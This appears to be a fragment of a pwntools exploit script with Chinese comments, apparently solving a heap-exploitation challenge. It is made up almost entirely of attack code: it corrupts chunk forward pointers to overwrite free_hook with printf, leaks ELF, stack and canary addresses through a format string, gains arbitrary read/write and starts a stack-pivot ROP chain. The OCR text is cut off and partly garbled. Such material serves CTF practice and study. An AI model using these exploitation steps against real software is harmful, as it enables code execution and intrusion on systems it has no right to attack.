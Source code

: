 ```
add(0x410) #8
add(0x410) #10
payload = 'x00'*0x400 + p64(0) +p64(0x421) 
edit(10,payload)
free(8)
free(7)
fake_addr = fake_addr+0x410
payload = p64(0)+ p64(0x31) + 'x00'*0x20
payload += p64(0) + p64(0x71) + 'x00'*0x60
payload += p64(0) + p64(0x421) + p64(fake_addr)
edit(5,payload) #修改0x420chunk的fd
add(0x410) #7
add(0x410) #8 这个块可以控制free_hook
payload = 'x00'*0x400 + p64(0) +p64(0x421) 
edit(8,payload)
free(7)
fake_addr = fake_addr+0x410
payload = p64(0)+ p64(0x31) + 'x00'*0x20
payload += p64(0) + p64(0x71) + 'x00'*0x60
payload += p64(0) + p64(0x421) + p64(fake_addr)
edit(5,payload) #修改0x420chunk的fd
add(0x410) #7
add(0x410) #11
payload = 'x00'*0x400 + p64(0) +p64(0x421) 
edit(11,payload)
free(7)
fake_addr = fake_addr+0x410
payload = p64(0)+ p64(0x31) + 'x00'*0x20
payload += p64(0) + p64(0x71) + 'x00'*0x60
payload += p64(0) + p64(0x421) + p64(fake_addr)
edit(5,payload) #修改0x420chunk的fd
add(0x410) #7
add(0x410) #12
printf_addr = libc.sym['printf']
payload = 'x00'*0x400 + p64(printf_addr)  #free_hook_value
edit(12,payload)
#通过printf格式化字符串漏洞泄露栈地址
edit(2,'%p '*0x40)
free(2)
r.recv()
res = r.recv().split(' ')
elf_addr = int(res[0],16) - 0x5555555552c2 + 0x555555554000
stack_addr = int(res[2],16) - 0x7fffffffed00 + 0x7ffffffde000 
canary = int(res[16],16)
success("elf_addr =&gt; "+hex(elf_addr))
success("stack_addr =&gt; "+hex(stack_addr))
success("canary =&gt; "+hex(canary))
r.sendline()
#修改程序中全局指针
fake_addr = elf_addr - 0x555555554000 + 0x5555557560fd
payload = p64(0)+ p64(0x31) + 'x00'*0x20
payload += p64(0) +p64(0x71) + p64(fake_addr)
edit(5,payload)
add(0x60) #2
add(0x60) #13
edit(5,p64(heap_addr - 0x0000555555757000+0x00005555557571b0)*0x100)
payload = 'x00'*3 + p64(heap_addr - 0x0000555555757000+0x00005555557571b0)
edit(13,payload)
#下面开始任意地址读写
ret_addr = stack_addr - 0x7ffffffde000 + 0x00007fffffffed48 #这里放堆地址
edit(15,p64(ret_addr)+p64(0x200)) #设置0 为栈地址，用edit编辑
pop_rsp_ret = libc.address + 0x0000000000003838
payload = p64(pop_rsp_ret) + p64(ret_addr+0x10)
```